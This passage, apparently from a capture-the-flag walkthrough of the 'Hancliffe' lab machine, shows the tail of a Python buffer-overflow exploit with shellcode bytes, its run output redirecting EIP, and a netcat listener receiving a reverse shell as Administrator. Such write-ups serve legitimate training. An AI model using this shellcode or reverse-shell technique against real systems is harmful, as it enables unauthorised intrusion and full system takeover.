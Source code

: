 ```python
        buf += b"\x14\xc5\xbf\xd8\xc0\xe8\xac\xf9\x50\x57"

        buf += b"\xcc" * (500 - len(buf))
        io.sendline(buf)
    except EOFError:
        time.sleep(0.5)
    else:
        break
```

Start a reverse shell listener and fire the exploit.

```bash
$ python3 exploit.py hancliffe.htb 9999
[+] Opening connection to hancliffe.htb on port 9999: Done
[*] Connected! Logging in with credentials alfiansyah:K3r4j@@nM4j@pAh!T...
[*] Sending FullName with payload to set up recv() call...
[*] FullName sent! Sending code to overflow the stack and direct EIP to recv() call...
[*] Closed connection to hancliffe.htb port 9999
```

Receive a reverse shell as `Administrator`. Read the system flag at `C:\Users\Administrator\Desktop\root.txt`.

```bash
$ sudo nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.97] from (UNKNOWN) [10.129.248.156] 57649
Microsoft Windows [Version 10.0.19043.1266]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
hancliffe\administrator

C:\Windows\system32>dir C:\Users\Administrator\Desktop\root.txt
dir C:\Users\Administrator\Desktop\root.txt
 Volume in drive C has no label.
 Volume Serial Number is B0F6-2F1B

 Directory of C:\Users\Administrator\Desktop

03/08/2022  10:52 AM                34 root.txt
               1 File(s)             34 bytes
               0 Dir(s)   5,650,927,616 bytes free
```
